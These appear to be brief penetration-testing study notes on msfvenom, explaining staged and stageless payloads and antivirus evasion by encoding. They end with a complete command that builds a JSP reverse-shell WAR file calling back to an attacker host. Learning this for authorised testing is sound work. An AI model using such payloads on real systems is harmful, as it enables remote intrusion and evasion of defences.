 # Crafting Payloads with MSFvenom

msfvenom is used to craft a payload and send it via email or social engineering. Also able to encrypt & encode the payload in order to bypass antivirus detection

msfvenom -l payloads

## Staged

Staged : a stage is executed on the target and then call back to the attack box
-> example : linux/x86/shell/reverse_tcp is a staged payload with a first stage shell/ and then reverse_tcp

## Stageless

Stageless : payloads without stages (better for environments with low bandwidth and latency AND better to escape detection)
-> example : /linux/zarch/meterpreter_reverse_tcp is a stageless with all shell AND network communication within the same function meterpreter_reverse_tcp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o root.war
